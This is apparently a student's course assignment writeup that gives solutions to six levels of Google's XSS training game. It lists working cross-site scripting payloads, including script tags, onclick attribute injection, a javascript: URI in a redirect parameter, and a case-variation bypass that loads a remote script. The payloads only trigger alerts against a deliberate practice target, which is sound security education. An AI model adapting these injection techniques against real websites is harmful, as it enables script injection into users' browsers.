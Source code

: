 Writeup 14
=====

Name: Ethan Farkas
Section: 0201
I pledge on my honor that I have not given or received any unauthorized assistance on this assignment or examination.

Digital acknowledgement of honor pledge: Ethan Farkas

## Assignment 10 Writeup

### Part 1 (70 Pts)


### Part 2 (30 Pts)
1.	beaten with <script> alert("Hello\nHow are you?"); </script>  Simply embedding a script produced the alert
2.	 beaten with  <button onclick=alert(‘asdf’);>Try it</button>  This time, I used a button with an onclick to make the alert.
3.	beaten with https://xss-game.appspot.com/level3/frame#2'onclick=alert('asdf');>  Here I was able to modify the attribute of the image to have an onclick to make an alert.
4.	https://xss-game.appspot.com/level4/frame?timer=')%3Balert(‘asdf’)%3Bvar qwer=('
I needed some help to get this one, but the key was using %3b which translates to ';', essentially allowing me to inject commands.
5.	https://xss-game.appspot.com/level5/frame/signup?next=javascript:alert('asdf');
Here the code uses a variable called next, which is passed into the url.  Passing in javascript as the value of next allows me to popup an alert.
6.	https://xss-game.appspot.com/level6/frame#hTtps://google.com/jsapi?callback=alert
I followed the advice in the hint, and used google's jsapi to host the alert.  The problem with the code was that it didn't check for all versions of https, so capital letters are not detected
